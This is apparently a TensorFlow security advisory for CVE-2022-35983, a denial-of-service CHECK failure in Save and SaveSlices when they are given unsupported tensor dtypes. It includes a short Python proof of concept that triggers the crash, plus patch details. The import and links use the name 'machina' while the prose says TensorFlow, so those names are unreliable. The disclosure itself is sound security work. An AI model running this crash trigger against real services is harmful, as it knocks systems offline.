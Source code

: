 ## TFSA-2022-114: `CHECK` fail in `Save` and `SaveSlices`

### CVE Number
CVE-2022-35983

### Impact
If `Save` or `SaveSlices` is run over tensors of an unsupported `dtype`, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import machina as tf
filename = tf.constant("")
tensor_names = tf.constant("")
# Save
data = tf.cast(tf.random.uniform(shape=[1], minval=-10000, maxval=10000, dtype=tf.int64, seed=-2021), tf.uint64)
tf.raw_ops.Save(filename=filename, tensor_names=tensor_names, data=data, )
# SaveSlices
shapes_and_slices = tf.constant("")
data = tf.cast(tf.random.uniform(shape=[1], minval=-10000, maxval=10000, dtype=tf.int64, seed=9712), tf.uint32)
tf.raw_ops.SaveSlices(filename=filename, tensor_names=tensor_names, shapes_and_slices=shapes_and_slices, data=data, )
```

### Patches
We have patched the issue in GitHub commit [5dd7b86b84a864b834c6fa3d7f9f51c87efa99d4](https://github.com/machina/machina/commit/5dd7b86b84a864b834c6fa3d7f9f51c87efa99d4).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University

